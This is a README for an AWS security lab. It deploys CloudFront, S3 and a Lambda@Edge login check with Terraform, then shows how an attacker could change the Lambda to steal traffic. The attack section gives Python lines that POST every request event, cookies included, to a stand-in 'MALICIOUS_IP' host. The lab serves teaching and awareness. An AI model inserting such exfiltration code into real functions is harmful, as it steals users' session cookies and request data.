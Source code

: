 # CloudFront - Data Exfiltration via Lambda Function Modification

## Overview

This setup deploys an AWS CloudFront distribution backed by an S3 bucket. The bucket contains two files: `index.html` and `login.html`. The `login.html` simulates a login page by setting a random cookie named `session-id` for the user. Additionally, a Lambda function checks for the presence of this cookie and redirects users to the login.html if it's missing.

## Prerequisites

- AWS CLI configured with necessary permissions.
- Terraform installed.

## Deploying the Infrastructure

1. **Initialize Terraform**:
    ```bash
    terraform init
    ```

2. **Review Changes**:
    ```bash
    terraform plan
    ```

3. **Deploy Resources**:
    ```bash
    terraform apply
    ```

4. **Update the Lambda Function**:
    - After the initial `terraform apply`, you will receive an output containing the domain URL for the CloudFront distribution.
    - Open the Lambda function code and replace the `CHANGEME` placeholder with the received domain.
    - Save the changes.

5. **Reapply Terraform Changes**:
    ```bash
    terraform apply
    ```

6. **Access CloudFront**: After the second apply, accessing the CloudFront URL will lead you to `index.html`, the lambda will redirect you to `login.html`. The latter sets a random "cookie" to simulate a login page.

![Initial infraestructure](CloudFront-LambdaEdge.gif)

## Attacking the Infrastructure

The goal of this exercise is to demonstrate how attackers might harm an AWS infrastructure as detailed in the article: https://medium.com/@adan.alvarez/how-attackers-can-misuse-aws-cloudfront-access-to-make-it-rain-cookies-acf9ce87541c

1. **Modify the Lambda Function**:
    - Import the required modules: `http.client` and `json`.
    - Add the following lines to the handler:
        ```python
        conn = http.client.HTTPConnection("MALICIOUS_IP", 80)
        conn.request("POST", "/", json.dumps(event).encode('utf-8'))
        ```
    - Ensure you replace `MALICIOUS_IP` in the script with the IP of your server where you want to capture cookies.
    - Save the changes.

2. **Update the Lambda Function**:
    - Publish a new version of the modified Lambda function.
    - Update the CloudFront distribution to use this new version of the Lambda function.

From this point on, all user requests routed through CloudFront will also be sent to the specified `MALICIOUS_IP`.

![Attack infraestructure](CloudFrontAttack-LambdaEdge.gif)

## Understanding the Attack

The modified Lambda function now acts as a data exfiltration point. Every request processed by this function sends a copy of the event data to an external server (`MALICIOUS_IP`).

## Cleanup

To avoid incurring additional charges, ensure you destroy the Terraform-managed resources once done:

```bash
terraform destroy
```

⚠️ **Warning** ⚠️

> The content and techniques described here are meant for educational and awareness purposes only. Always be cautious when testing and use only in safe, controlled environments. Unauthorized use or misuse can lead to legal consequences and potential harm.
